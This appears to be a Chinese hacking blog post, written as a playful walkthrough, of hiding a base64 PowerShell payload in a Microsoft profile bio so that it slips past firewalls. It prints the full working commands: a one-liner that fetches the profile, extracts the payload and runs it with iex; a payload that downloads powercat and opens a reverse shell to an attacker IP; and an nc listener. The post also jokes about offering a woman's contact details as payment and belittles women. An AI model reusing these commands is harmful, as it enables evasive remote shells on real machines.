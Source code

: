 ```yaml
---
layout: post
title: "使用Microsoft.com域绕过防火墙并执行有效负载" 
subtitle: "使用Microsoft.com域绕过防火墙并执行有效负载"
date: 2019-07-13
author: ppbibo
category: APT攻击
---
```


[TOC]

**PS：**

看到九世哥哥发的文章感觉思路很骚就去复现一下玩玩，但是奈何本人的windows 7 不给力 低版本的prowershell 不支持 `Invoke-WebRequest`、`iwr`、`curl`和`wget`（其实他们是一个东西）所以把虚拟机的prowershell 给删了。



## 0x1 利用方法反弹一个shell

注册 microsoft 账号，然后插入base64 编码的payload

打印 base64编码后的payload命令如下：

```bash
printf '%s' "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 161.129.xx.xx -p 6666 -e cmd" | base64 | tr -d '\n'
```

输出：

```bash
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViY2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2Jlc2ltb3JoaW5vL3Bvd2VyY2F0L21hc3Rlci9wb3dlcmNhdC5wczEnKTtwb3dlcmNhdCAtYyAxNjEuMTI5LjQzLjE2OSAtcCA2NjY2IC1lIGNtZA==
```

**RT：**

![microsoft-1](/static/img/microsoft-1.png)

*Tag：ip 自己改哦！（因为这个被九世哥哥骂了一下；俗话说打是亲骂是爱我不怪他。）*



将base64编码后的 payload 插入到作者简介中 **RT：**

![microsoft-2](/static/img/microsoft-2.png)

**TAG：不要忘记开头的 START 还有结尾的 END** *( 用来正则匹配的 )*。



接下来就是执行powershell command反弹shell了。打开服务器

#### 服务器IP：161.129.xxx.xxx

#### 服务器监听 6666 端口

```bash
$ nc -lvvp 6666
```

*PS ： 等待了一个下午。。。*😭



## 0x2 群里弟弟求助哥哥们

我拿出了妹子联系方式做为交换求他们执行一下 让我反弹个shell 

![microsoft-3](/static/img/microsoft-3.png)



最终九世哥哥耐不住寂寞要开机祝我一臂之力了。

#### PowerShell Execution code

```bash
$wro = iwr -Uri https://social.msdn.microsoft.com/Profile/testestPPbibo -UseBasicParsing;$r = [Regex]::new("(?<=START)(.*)(?=END)");$m = $r.Match($wro.rawcontent);if($m.Success){ $p = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m.value));iex $p };
```

##### 代码解析：

```bash
$wro = iwr -Uri https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 -UseBasicParsing;  -> 请求url获取源码
```

```bash
$r = Regex::new("(?<=START)(.*)(?=END)"); -> 正则表达式
```

```bash
$m = $r.Match($wro.rawcontent);  -> 正则匹配，创建变量m
```

```bash
if($m.Success){ $p = System.Text.Encoding::UTF8.GetString(System.Convert::FromBase64String($m.value));      -> 如果匹配到正则，解码base64赋值为$p
```

```bash
iex $p   -> 执行payload
```

执行代码**RT ：**

![microsoft-4](/static/img/microsoft-4.png)



我的服务器 say 来了来了。。。

![microsoft-5](/static/img/microsoft-5.png)

在反弹的过程中不是很顺利 卡死多次，但是为了提升点bi格。

九世哥哥提议弹个calc 。

![microsoft-6](/static/img/microsoft-6.png)

将 microsoft 作者简介中 Payload 替换掉 **RT：**

![microsoft-7](/static/img/microsoft-7.png)

然后九世哥哥给出了一张有Bi格的图片：

![microsoft-8](/static/img/microsoft-8.png)



OK 结束了 是时候兑现自己诺言了。

![microsoft-9](/static/img/microsoft-9.png)



**九世哥哥果然是英雄好汉，好了！🙏一下大佬**



## 总结

思路骚才是硬道理

这种方式深入一下利用方式很不错的仅提供思路

*妹子只会打扰阻碍大佬前进的步伐，九世哥哥是个很好的例子。*



[参考](https://www.secquan.org/Discuss/1069837)